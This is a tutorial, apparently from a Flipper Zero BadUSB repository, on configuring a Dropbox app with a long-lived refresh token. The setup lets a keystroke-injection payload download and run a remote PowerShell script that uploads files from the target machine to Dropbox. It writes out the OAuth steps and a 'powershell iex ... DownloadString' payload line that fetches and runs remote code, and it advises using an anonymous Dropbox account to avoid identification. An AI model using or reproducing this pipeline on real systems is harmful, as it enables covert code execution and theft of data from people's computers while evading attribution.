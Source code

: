 # Dropbox Configuration for Uploading files with BadUSB 

This tutorial will explain how to create a BadUSB payload that will run a remote script stored on the Web, which is capable of uploading files to a remote location. Both the _download_ of the script and the _file upload_ parts will use Dropbox. 

**NOTE**: be aware that if your payloads/scripts are compromised, it might be possible to identify the original Dropbox account. So we recommend using an anonymous or disposable Dropbox account to operate everything.

This was inspired by the [ADV-Recon](https://github.com/I-Am-Jakoby/Flipper-Zero-BadUSB/tree/main/Payloads/Flip-ADV-Recon) script by [I-Am-Jakoby](https://github.com/I-Am-Jakoby).

## Motivation

Until mid 2021, Dropbox allowed to create an "Access Token" that never expired. With a token like that, you could simply hardcode it on your script and the Dropbox upload would work. Since then, the "Access Token" that you create in the Apps Settings pages will expire after 4 hours. This requires that you keep recreating Dropbox tokens every time you want to use a payload.

By using Dropbox's OAuth 2.0 API, this tutorial will demonstrate how to make an script that is capable of automatically generating "Autorization tokens", so that once the script is written you don't have to keep updating the credentials.


## Create a Dropbox Application

First we will create a personal Dropbox application that will have permissions onlly to _upload_ files to a _specific folder_.

The stricter permission settings is recommended, because it will limit the access in case of the keys/tokens/secrets are, somehow, compromised/leaked. For instance, if the key had access to _read_ and to _any_ folder of the account, one could download all the files in the Dropbox account that you will be using.

To create an application like that, do the following:
 1. Go to the [Dropbox New App Creation](https://www.dropbox.com/developers/apps/create/) page. Fill the information as following:
   - API: Scoped access
   - Access Type: App folder (
   - Name: <any> (it should be exclusive)
 2. Go to the [My apps](https://www.dropbox.com/developers/apps/) page and enter in your recently created application page.
 3. Go to the "Permissions" tab of your app.
 4. Mark these two permissions:
   - `files.metadata.write`
   - `files.content.write`
 5. Click on the "Submit" button to update the app's permissions.

## Setup the Key of the Dropbox Application

Now we will manually execute an OAuth 2.0 authentication flow to create some keys for us. 
We will create a virtually permanent "Refresh Token" which will allow our script to automatically generate temporary "Access Token" every time it executes the payload.

 1. Go to the [My apps](https://www.dropbox.com/developers/apps/) page and enter in your recently created application page.
 2. Go to the "Settings" tab of your app.
 3. Copy and write down your "App key" (`<APP_KEY>`) and "App secret" (`APP_SECRET`).
 4. Open a web browser and log into your Dropbox account (if it is not already).
 5. Create an URL with your "App key" and open it in your browser:
```
https://www.dropbox.com/oauth2/authorize?client_id=<APP_KEY>&token_access_type=offline&response_type=code
```
 6. Click on `Continue` to indicate that you are aware that you are connecting to a development application.
 7. Click on `Allow` to allow that the application have the mentioned permissions.
 8. Copy and write down the "Authorization code" (`<AUTHORIZATION_CODE>`) shown in the box.
 9. Make a HTTP request to retrieve a refresh token: 
```
curl https://api.dropbox.com/oauth2/token \
    -d code=<AUTHORIZATION_CODE> \
    -d grant_type=authorization_code \     
    -u <APP_KEY>:<APP_SECRET>
```
 10. Copy and write down write down the "Refresh token" (`<REFRESH_TOKEN>`) from the `"refresh_token"` key of the JSON response.

As long as your Dropbox account keeps your App in the allow list, the "Refresh token" will be valid. 

## Prepare the PowerShell script

The `.ps1` file is the PowerShell script that you want to run. It will create a local file, then upload it to Dropbox. To configure it do the following:

 1. Edit your `.ps1` file to specify the secrets you have copied and written from the previous step:
```
$MyAppKey       = "<APP_KEY>"
$MyAppSecret    = "<APP_SECRET>"
$MyRefreshToken = "<REFRESH_TOKEN>"
```
 2. Upload the `.ps1` file to Dropbox (it can be stored in any folder, not necessarily inside the app's folder).
 3. Locate the file on the Dropbox web interface, right click on it, and click on the "Copy link" option.
 4. Copy and write down the URL, replacing the `?dl=0` in the end to `?dl=1` if necessary. Let's call it `<SCRIPT_DOWNLOAD_URL>`. For example:
```
https://www.dropbox.com/s/xxxxxxxxxxxx/my-file.ps1?dl=1
```

Like previously mentioned, the "Refresh Token" will not expire, so you can keep your script unchanged, and every time it runs it will create and use a fresh and temporary "Access Token".

## Prepare the BadUSB payload

The `.txt` file is the BadUSB payload that will actually send the keystrokes. It will call the Windows run box and execute the remote PowerShell script. You have to specify the download URL of the PowerShell script inside the payload. Do the following:

 1. Edit your `.txt` file to put the download URL (`<SCRIPT_DOWNLOAD_URL>`):
```
ALTSTRING cmd /c powershell iex ((New-Object System.Net.WebClient).DownloadString('https://www.dropbox.com/s/xxxxxxxxxxxx/my-file.ps1?dl=1'))
```
 2. Put the `.txt` file inside the `badusb` folder of the Flipper's SD Card.

## Reference
 - https://www.dropbox.com/developers/documentation/http/documentation
 - https://developers.dropbox.com/oauth-guide

